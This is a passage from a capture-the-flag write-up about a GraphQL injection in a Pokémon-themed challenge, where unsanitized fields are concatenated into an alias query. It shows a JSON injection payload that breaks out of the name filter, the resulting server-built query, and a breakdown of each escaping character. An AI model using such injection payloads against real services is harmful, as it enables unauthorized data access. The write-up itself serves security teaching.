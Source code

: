 As you can see, our field `pokemons` and `compares` values are directly concatenated to the alias query without any sanitization.

Now, let's try to inject our own GraphQL query:

```json
{
  "pokemons": [
    "anything\"){id}}#"
  ],
  "compares": []
}
```

Which the server builds the following alias query:

```json
{
    _1: pokemon(name:"anything"){id}}#") {}
}
```

In here, we used a double quote character and closing parenthesis character (`")`) to escape the `name` filter. Then, the `{id}` is to include the result's `id` field. Next, the last `}` character is to end the alias query. Finally, the `#` is to comment out the rest of the GraphQL syntax.

![](https://github.com/siunam321/CTF-Writeups/blob/main/CUHK-CTF-2024/images/Pasted%20image%2020241015123530.png)
